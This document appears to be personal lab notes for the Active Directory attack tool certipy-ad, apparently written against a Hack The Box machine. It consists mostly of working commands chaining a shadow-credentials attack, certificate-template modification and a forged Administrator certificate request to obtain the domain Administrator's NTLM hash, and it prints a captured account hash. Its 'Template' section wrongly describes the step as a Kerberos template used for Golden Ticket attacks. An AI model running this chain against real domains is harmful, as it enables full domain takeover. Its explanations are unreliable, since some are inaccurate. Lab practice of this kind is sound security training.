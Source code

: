 # certipy

## Overview

## Usage

### Auth

Return a hash for the account of the private key

Example: certipy-ad auth -pfx ./administrator.pfx -dc-ip 10.129.251.172

### Find

The find command is useful for enumerating AD CS certificate templates, certificate authorities and other configurations. The find operation searches for vulnerabilities such as missing or misconfigured certificates, insecure settings, or issues with Kerberos encryption types.

    -scheme <scheme>: This specifies which scheme should be used to communicate with the target Domain Controller.
    -k: The -k flag indicates that Kerberos authentication should be used for the request. Certipy will attempt to authenticate with the Kerberos tickets that are either provided or found in the Kerberos ticket cache
    -debug: The -debug flag enables debugging output.
    -target <target_name>.<domain_name>: DNS name of the target
    -dc <ip>: Domain Controller ip.
    -vulnerable: This flag tells Certipy to look for vulnerabilities related to Kerberos and Active Directory certificate configurations.
    -stdout: The -stdout flag indicates that Certipy should print its results to standard output, rather than saving them to a file.

```shell
KRB5CCNAME=$PWD/<victim_username_with_TGT>.ccache certipy-ad find -scheme <scheme> -k -debug -target <target_dns_name> -dc-ip <domain_controller_ip> -vulnerable -stdout
```

Example: KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip 10.129.251.172 -vulnerable -stdout

### Req

Example: certipy-ad req -u ca_svc -hashes :{ca_svc_hash} -ca sequel-DC01-CA -target DC01.sequel.htb -dc-ip {ip} -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns {ip} -dns {ip}

Might need to be run multiple times to work

### Shadow Credentials

```shell
certipy-ad shadow auto -u <username>@<domain_name> -p '<password>' -dc-ip <domain_controller_ip> -ns <dns_server_ip> -target <domain_controller_name>.<domain_name> -account <username_victim>
```

Example : 
```shell 
certipy-ad shadow auto -u ryan@sequel.htb -p '<password>' -dc-ip 10.129.251.172 -ns 10.129.251.172 -target dc01.sequel.htb -account ca_svc
```

### Template

This specifies the Kerberos template to use when requesting a Kerberos ticket. This template is used when performing actions like generating tickets or performing Kerberos-based attacks (like Pass-the-Ticket (PTT) or Golden Ticket).

Example: 
```shell 
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.129.251.172
```


## Examples

### Shadow Credentials

Do a shadow crendentials attack to get a TGT for the account ca_svc

```shell
certipy-ad shadow auto -u ryan@sequel.htb -p '<password>' -dc-ip 10.129.251.172 -ns 10.129.251.172 -target dc01.sequel.htb -account ca_svc
```

With the TGT of ca_svc specify a template and get a private key for the Administrator account:

```shell
    KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.129.251.172
    certipy-ad req -u ca_svc -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target DC01.sequel.htb -dc-ip 10.129.251.172 -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns 10.129.251.172 -dns 10.129.251.172
```

Finally authenticate with the private key and get the NTLM hash for the Administrator account:

```shell
    certipy-ad auth -pfx ./administrator_10.pfx -dc-ip 10.129.251.172
```